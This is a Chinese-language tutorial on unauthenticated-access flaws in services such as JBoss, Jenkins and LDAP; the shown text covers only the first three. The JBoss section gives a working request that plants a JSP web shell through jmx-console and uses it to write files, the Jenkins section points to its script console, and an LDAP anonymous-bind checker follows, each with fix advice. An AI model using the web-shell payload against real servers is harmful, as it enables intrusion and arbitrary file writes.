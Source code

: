 安全漏洞<br />具体漏洞列表如下：

- Jboss 未授权访问
- Jenkins 未授权访问
- ldap未授权访问
- Redis未授权访问
- elasticsearch未授权访问
- MenCache未授权访问
- Mongodb未授权访问
- Rsync未授权访问
- Zookeeper未授权访问
- Docker未授权访问

---

<a name="ftdU0"></a>
## 1、Jboss未授权访问
漏洞原因：<br />在低版本中，默认可以访问Jboss web控制台(http://127.0.0.1:8080/jmx-console)，无需用户名和密码。<br />![](https://cdn.nlark.com/yuque/0/2020/webp/396745/1599207381120-8ae7cba8-71f0-4eb2-bd0c-9da1cc2821ef.webp#height=503&id=Gw3o6&originHeight=503&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=1080)<br />漏洞利用：<br />1、写入一句话木马：
```
http://127.0.0.1:8080/jmx-console//HtmlAdaptor?action=invokeOpByName&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodName=store&argType=java.lang.String&arg0=August.war&argType=java.lang.String&&arg1=shell&argType=java.lang.String&arg2=.jsp&argType=java.lang.String&arg3=%3c%25+if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b+%25%3e&argType=boolean&arg4=True
```
2、写入1.txt文件
```
http://127.0.0.1:8080/August/shell.jsp?f=1.txt&t=hello world!
```
3、访问1.txt文件
```
http://127.0.0.1:8080/August/1.txt
```
检测工具：jexboss，一个使用Python编写的Jboss漏洞检测利用工具，通过它可以检测并利用web-console，jmx-console，JMXInvokerServlet这三个漏洞，并且可以获得一个shell。<br />修复建议：关闭jmx-console和web-console，提高安全性。
<a name="CkTyB"></a>
## 2、Jenkins 未授权访问
漏洞原因：未设置密码，导致未授权访问。<br />漏洞测试：直接通过url访问
```http
http://<target>:8080/managehttp://<target>:8080/script
```
![](https://cdn.nlark.com/yuque/0/2020/webp/396745/1599207381147-e81b6e0b-f056-4670-a104-8933caa988e8.webp#height=521&id=SJ9pM&originHeight=521&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=0&status=done&style=none&title=&width=1080)<br />修复建议：设置强口令密码。
<a name="XYISZ"></a>
## 3、ldap未授权访问
漏洞原因：没有对Ldap进行密码验证，导致未授权访问。<br />检测脚本：
```bash
#! /usr/bin/env python
# _*_  coding:utf-8 _*_

from ldap3 import Connection,Server,ALL
def ldap_anonymous(ip):
    try:
        server = Server(ip,get_info=ALL,connect_timeout=1)
        conn = Connection(server, auto_bind=True)
        print "[+] ldap login for anonymous"
        conn.closed
    except:
        #pass
        print '[-] checking for ldap anonymous fail'
```